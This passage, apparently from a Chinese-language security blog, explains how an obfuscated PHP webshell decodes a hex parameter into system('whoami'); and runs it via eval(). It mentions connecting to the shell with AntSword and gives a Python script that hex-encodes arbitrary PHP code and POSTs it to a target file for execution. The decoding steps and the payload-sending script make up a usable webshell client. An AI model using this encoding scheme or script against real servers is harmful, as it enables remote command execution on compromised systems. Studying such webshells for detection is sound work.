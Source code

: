 -   刚开始传入参数：`num`\=`2`，`Qxi*37yz`\=`6173797374656d282777686f616d6927293b62`
-   第一步：先根据 `substr()`，从 num=2 开始截取到倒数第 2 位，于是 `Qxi*37yz` 便等于 `73797374656d282777686f616d6927293b`
-   第二步：再根据 `pack("H*",...)`，将 `Qxi*37yz`\=`73797374656d282777686f616d6927293b` 从 16 进制转为字符串即 `system('whoami');`
-   第三步：最后根据 `foreach()`，将内容返还给原本的值，使得 `encode()` 函数的输出变量 `$post1` 为 `system('whoami');`
-   第四步：再在 `Xt()` 函数当中，用 `eval()` 高危函数执行 php 语句 `system('whoami');`,便成功执行系统命令 `whoami`

当然这个 PHP 木马也能用蚁剑来连接，前提是需要写一个编码器，如果你懂原理了，相信你分分钟就能写出来~

这里的话，微信的 `@Elvery` 师傅还写了一个直接生成 Payload 一键传参的 Python 脚本，师傅们可以参考一下：

```plain
import requests
import base64

# 指定 num 参数和要执行的 PHP 代码
num = 5
php_code = 'echo "Hello, world!";'

# 把 PHP 代码转换为十六进制字符串
hex_code = php_code.encode().hex()

# 在字符串的开头和结尾加上 num 个任意字符
encoded_code = 'a'*num + hex_code + 'a'*num

# 发送 POST 请求
response = requests.post('http://your-target-url/path-to-php-file.php', data={
    'num': num,
    'Qxi*37yz': encoded_code,
})

# 打印服务器的响应
print(response.text)
```

[![](assets/1707954023-77428bda57d5f35f2299abe79f20c69e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205143937-54b2f5b2-c3f1-1.png)
